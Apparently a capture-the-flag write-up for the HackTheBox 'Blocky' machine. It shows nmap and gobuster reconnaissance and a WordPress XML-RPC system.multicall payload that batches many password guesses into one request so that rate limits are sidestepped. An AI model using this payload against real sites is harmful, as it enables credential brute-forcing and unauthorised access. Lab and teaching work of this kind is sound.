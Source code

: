 # Recon
As usual we start with a port scan against the target:
```
sudo nmap -sCV -O -p- 10.10.10.37 -oN nmap.txt -T5 -Pn
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Blocky/assets/1.png">

We found a WordPress 4.8 service running on port 80, SSH on 22 and an outdated ProFTPd server on default port 21.

# Enumeration
The website does mention the development of a wiki and a plugin so we'll run gobuster in an attempt to find their location.

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.37 
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Blocky/assets/2.png">

We do find the wiki and some other directories. We'll enumerate these in a moment.

As the site is running on WordPress we'll run ```wpscan``` on the target to find possible vulnerabilities. THe results show that ```XML-RPC``` is enabled. This is actually an API that allows developers, who make 3rd party application and services, to interact with the WordPress site.

The API is accessible by sending POST requests to http://10.10.10.37/xmlrpc.php. I found a blog writing about abusing this to do bruteforce attacks: https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/

An example:
```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```
The advantage is that we can send multiple usernames/passwords in just 1 POST request. This will help us to avoid any security control in place which could block too many requests.
Downside is that it's a lot of manual work or you'll need to write a script that generates the request.




<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Seal/assets/2.png">

